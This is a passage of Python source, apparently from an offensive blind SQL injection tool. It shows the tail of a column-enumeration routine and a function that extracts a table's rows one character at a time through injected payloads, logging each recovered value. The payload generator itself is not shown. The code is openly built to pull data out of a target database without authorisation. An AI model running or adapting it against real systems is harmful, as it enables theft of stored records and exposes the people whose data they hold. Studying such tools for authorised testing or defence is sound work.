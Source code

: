 ```py
            table_name,
            column_offset,
            database_name
        )
        if not column:
            if column_offset == 0:
                print(f"[!] No columns found in {table_name}")
            else:
                print(f"[+] Found {len(columns)} columns")
            break

        columns.append(column)
        column_offset += 1
    return columns

def extract_table_data(table_name, columns, database_name):
    data = []
    row_offset = 0
    max_rows = 20
    table_start = time.time()

    print(f"\n{'='*60}")
    print(f"[+] STARTING DATA EXTRACTION: Table '{table_name}'")
    print(f"{'='*60}")

    while row_offset < max_rows:
        row_data = {}
        row_found = False
        row_start = time.time()

        print(f"\n[+] Extracting row {row_offset}:")
        for column in columns:
            value = extract_value(
                f"{table_name}.{column} row {row_offset}",
                generate_data_payload,
                DATA_CHARS,
                table_name,
                column,
                row_offset,
                database_name
            )
            if value:
                row_found = True
                row_data[column] = value
            else:
                row_data[column] = None

        if not row_found:
            print(f"\n[!] No more data in table '{table_name}'")
            break

        data.append(row_data)
        row_time = time.time() - row_start
        print(f"\n[+] Completed row {row_offset} in {timedelta(seconds=row_time)}:")
        for col, val in row_data.items():
            print(f"  - {col}: {val}")
        row_offset += 1

    table_time = time.time() - table_start
    print(f"\n{'='*60}")
    print(f"[+] FINISHED TABLE: '{table_name}' - {len(data)} rows in {timedelta(seconds=table_time)}")
    print(f"{'='*60}")
```